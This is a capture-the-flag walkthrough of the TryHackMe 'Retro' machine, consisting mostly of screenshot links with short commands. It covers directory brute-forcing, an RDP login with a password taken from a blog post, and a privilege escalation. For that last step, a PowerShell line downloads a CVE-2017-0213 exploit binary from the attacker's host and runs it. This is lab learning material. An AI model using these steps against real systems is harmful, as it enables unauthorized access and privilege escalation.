---
---

# THM - Retro

NMAP






Directory bruteforce:

```bash
gobuster dir -u http://10.10.216.131 -w /usr/share/seclists/Discovery/Web-Content/big.txt
```



`http://10.10.216.131/retro/`



Looking at the page source - Found:










`http://10.10.216.131/retro/index.php/author/wade/`



- Something that could be a password - **parzival**:



- Port 3389 is open:

```bash
xfreerdp /v:10.10.216.131 /u:wade /p:"parzival" /dynamic-resolution /cert:ignore

```



We can read user.txt

Start enumeration:

```bash
query user
```



```bash
whoami /all
```



- Open Chrome and check history




[https://github.com/ycdxsb/WindowsPrivilegeEscalation](https://github.com/ycdxsb/WindowsPrivilegeEscalation#cve-2022-37969)




**\*\* Check Recycle Bin for hhupd.exe file**




- **Run the program as administrator**
















- Kept getting to this point but no programs show up

- Found a hint:
Make sure to open Internet Explorer and Chrome BEFORE running the program

But still doesn't work

- Wes-NG suggested CVE-2017-0213
<https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213>

Download and extract the zip file and transfer to the windows machine:

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8081/CVE-2017-0213_x64.exe', 'C:\Users\wade\CVE-2017-0213_x64.exe')

```
And just run it




Read root.txt